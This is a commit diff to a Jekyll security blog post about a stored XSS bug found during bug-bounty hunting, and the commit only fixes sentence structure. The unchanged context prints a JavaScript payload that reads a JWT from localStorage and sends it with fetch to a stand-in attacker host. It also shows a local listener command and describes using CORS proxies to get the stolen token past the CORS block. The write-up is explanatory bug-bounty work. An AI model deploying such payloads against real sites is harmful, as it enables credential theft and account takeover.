

Before and after one commit to andreathniah/bucketoftears, a Jekyll site: the page built from _posts/2023-03-17-stored-xss-data-exfiltration.md, in a window 1280 px wide and 1400 px high, scrolled down 207 px. Shown: the whole window, without its empty margins (206-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Fix sentence structure

````diff
--- a/_posts/2023-03-17-stored-xss-data-exfiltration.md
+++ b/_posts/2023-03-17-stored-xss-data-exfiltration.md
@@ -14,19 +14,19 @@ In order words: how to not get c\*\*k-blocked by CORS.
 
 I recently found a stored Cross-site Scripting (XSS) vulnerability while hunting at a target.
 
-While the bug class itself is not particularly spectacular, what interested me was on _what_ I do with it.
+While the bug class itself is not particularly spectacular, what interested me was on _what_ I could do with it.
 
-Showing an alert popup is fine and all, but impact of that level would likely only net me a `Medium` in severity at HackerOne. To justify for anything higher, I have to get creative on showing its possible disastrous impact.
+Showing an alert popup is fine and all, but impact of that level would likely only net me a `Medium` in severity at HackerOne. To justify for anything higher, I have to get creative on showing its potential disastrous impact.
 
 Given that this is a stored XSS, I thought to myself:
 
-> What if I were to demonstrate that an attacker can essentially farm for credentials of any authenticated users who browses the affected page? Account takeover would be trivial!
+> What if I demonstrate that an attacker can essentially harvest credentials from any authenticated user who browses the affected page? In that case, mass account takeovers would be trivial!
 
-An idea worthy trying out, especially since the application stores the value of its JWT in the browser's `localStorage` as `token`.
+An idea worth trying out, especially since the application stores the value of its JWT in the browser's `localStorage` as `token`.
 
-I can simply swap out the typical payload of `alert(document.domain)` to one that retrieves the token and make a GET request to a server under my control.
+I can simply swap out the typical payload of `alert(document.domain)` with one that retrieves the token and makes a GET request to a server under my control.
 
-Just like this; that should be it... right?
+Just like this; and that should be it... right?
 
 ```javascript
 fetch("https://attacker.com:8000/jwt=" + JSON.stringify(localStorage.getItem("token")));
@@ -34,7 +34,9 @@ fetch("https://attacker.com:8000/jwt=" + JSON.stringify(localStorage.getItem("to
 
 Nope-- what greeted me was this sad little error message in the console instead:
 
-> Access to fetch at 'https://attacker.com:8000/?jwt=xxx' from origin 'https://example.redacted.com' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource. If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.
+> Access to fetch at 'https://attacker.com:8000/?jwt=xxx' from origin 'https://example.redacted.com' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource.
+>
+> If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.
 
 Very sad indeed.
 
@@ -44,7 +46,7 @@ Now, before we go into that, let's first understand what is **Same-Origin Policy
 
 Long story short, SOP prevents one origin from accessing resources of another origin.
 
-Origin here is defined as `protocol://hostname:port`. In other words, for one origin to be evaluated as the same with another origin, the values of these three variables must be _exactly_ the same.
+Origin here is defined as `protocol://hostname:port`. In other words, in order for one origin to be considered the same as another origin, the values of these three variables must be _exactly_ the same.
 
 Let's take `https://example.com/latest` as an example:
 
@@ -85,7 +87,7 @@ And this is why we had our little error: our `https://attacker.com/` doesn't ret
 
 Well, yes.
 
-The request was indeed sent, but that didn't mean the delivered content was legible from the web server. In fact, it was a bunch of truly horrible-looking 400 Bad Request errors.
+The request was indeed sent, but that didn't mean the delivered content was legible from the web server. In fact, it was a bunch of truly horrible-looking `400 Bad Request` errors.
 
 ```bash
 bot@bucketoftears:~$ python3 -m http.server 8000
@@ -98,7 +100,7 @@ Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
 
 No amount of Googling had enlightened me on what-the-loving-fuck is happening here (probably something to do with that missing CORS header), so I moved on to my next brilliant idea -- using CORS proxies!
 
-CORS proxy essentially acts as an intermediary that helpfully adds the required `Access-Control-Allow-Origin` header. It's easy -- doesn't require server setups of any kind -- and already has many instances online for immediate use (e.g. `CORS Anywhere`, `alloworigin`).
+A CORS proxy essentially acts as an intermediary that helpfully adds the required `Access-Control-Allow-Origin` header. It's easy -- doesn't require server setups of any kind -- and already has many instances online for immediate use (e.g. `CORS Anywhere`, `alloworigin`).
 
 One just needs to prefix the chosen proxy's URL to `https://attacker.com` and the proxy in question will:
 
@@ -106,7 +108,9 @@ One just needs to prefix the chosen proxy's URL to `https://attacker.com` and th
 2. Add the `Access-Control-Allow-Origin` header to the response from `https://attacker.com`
 3. Passes that response, with that added header, back to the requesting `https://attacker.com`
 
-Sounds simple! Now, let's try this out on the XSS payload...
+Sounds simple!
+
+Now, let's try this out on the XSS payload...
 
 ```javascript
 fetch(
````
Also changed, not shown: other parts of _posts/2023-03-17-stored-xss-data-exfiltration.md (+2 -2 lines).
